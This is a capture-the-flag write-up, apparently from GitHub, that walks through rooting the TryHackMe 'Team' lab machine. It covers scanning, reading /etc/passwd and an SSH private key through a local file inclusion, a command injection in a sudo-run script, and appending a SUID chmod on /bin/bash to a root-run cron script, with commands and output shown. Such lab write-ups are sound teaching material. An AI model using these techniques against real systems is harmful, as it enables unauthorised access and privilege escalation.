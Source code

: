 Hello this is my first write up I hope you will like it. For any questions or whatever message u can find me on Twitter https://twitter.com/Vojtech1337 . 
We will start with adding host to the /etc/hosts file and after that we will do all ports nmap scan.
```
echo "\n10.10.162.244 team.thm" >> /etc/hosts

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 06:13 EDT
Nmap scan report for 10.10.96.107 (10.10.96.107)
Host is up (0.069s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
We see that we have ftp open so lets try to login with anonymous and leave password blank. But we have noo success. Next comes the web page on port 80.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/team_web.png?raw=true)

It looks like a static page - nothing interesting there. Gobuster didn't find any directories but found one subdomain -dev.team.thm .
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     team.thm
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
2022/10/07 07:11:48 Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.team.thm
===============================================================
2022/10/07 07:20:56 Finished
===============================================================

```
We need to add it to the /etc/hosts as well to acess it.
```
echo "\n10.10.162.244 dev.team.thm" >> /etc/hosts
```
Now let's see what is on this page.
![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/dev_team_web.png?raw=true)

Only thing here is link when we click it it redirects us to dev.team.thm/script.php?page=teamshare.php . 
This URL with page parameter immediately looks vulnerable to LFI attack. The easiest way to start testing this vulnerability is putting 
/etc/passwd into the page parameter which is successful and we have valid vulnerability.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
We can see that (judging by which users have /bin/bash shell) there are 3 users - gyles,dale and root.
Now to get most of it we'll spin up wfuzz to fuzz pages. I've used this wordlist with linux files - https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux
```
wfuzz -u http://dev.team.thm/script.php?page=FUZZ -w LFI-WordList-Linux --hw 0

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://dev.team.thm/script.php?page=FUZZ
Total requests: 771

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================
					-------redacted---------
000000260:   200        78 L     339 W      2684 Ch     "/etc/sysctl.conf"
000000251:   200        169 L    447 W      5990 Ch     "/etc/ssh/sshd_config"
000000231:   200        66 L     412 W      2180 Ch     "/etc/security/time.conf"
000000222:   200        107 L    663 W      3636 Ch     "/etc/security/group.conf"
000000228:   200        74 L     499 W      2973 Ch     "/etc/security/pam_env.conf"
000000226:   200        29 L     217 W      1441 Ch     "/etc/security/namespace.conf"
000000230:   200        12 L     70 W       420 Ch      "/etc/security/sepermit.conf"                                                                   
```
It will return many files but the most important one is /etc/ssh/sshd_config which contains id_rsa key.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/lfi_sshkey.png?raw=true)

Now we only need to copy the key to the file(without the hashes on the left) and chmod 600 and then we can simply use ssh command 
to connect to the machine as dale.
```
└─# ssh dale@team.thm -i id_rsa
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ id
uid=1000(dale) gid=1000(dale) groups=1000(dale),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare),1003(editors)
```

Starting privilege escalation, we do simple sudo -l to see which commands we can run as different users and look at what the script does.
![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/ssh_sudo-l.png?raw=true)

If you don't know what any of these commands do u can use linux documentation. What read does here is putting out input into error
variable and then putting it straight into bash. This leads to command execution with simple /bin/bash.

```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: whatever
Enter 'date' to timestamp the file: /bin/bash
The Date is 
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
python3 -c 'import pty;pty.spawn("/bin/bash")'
gyles@TEAM:~$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```
Now we're user gyles. Let's look into gyles directory. There is a .bash_history file which we can read. If you look
closely through the file there is a /usr/local/bin/main_backup.sh file which belongs to the admin group and is owned by root. There is no cronjob that we can see but it's still worth the try. The easiest way to privesc from here is to change /bin/bash permissions so it runs with the owner's (root) permissions.

```
gyles@TEAM:/home/gyles$ echo "chmod +s /bin/bash" >> /usr/local/bin/main_backup.s
gyles@TEAM:/home/gyles$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
chmod +s /bin/bash
```
Now we wait a until the minute passes and do
```
gyles@TEAM:/home/gyles$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash
```
If you want to keep the permissions and escalate to the root user u need to run it with -p otherwise it won't keep the permissions.
```
gyles@TEAM:/home/gyles$ /bin/bash -p
bash-4.4# id
uid=1001(gyles) gid=1001(gyles) euid=0(root) egid=0(root) groups=0(root),1001(gyles),1003(editors),1004(admin)
bash-4.4# cat /root/root.txt
THM{fhqbz*******}
```
And we have successfully rooted this machine and got the root flag.
Thank you so much for reading this write up. If you have any suggestions, questions or just want to play CTFs with someone reach me out 
on Twitter or wherever else you can find me.

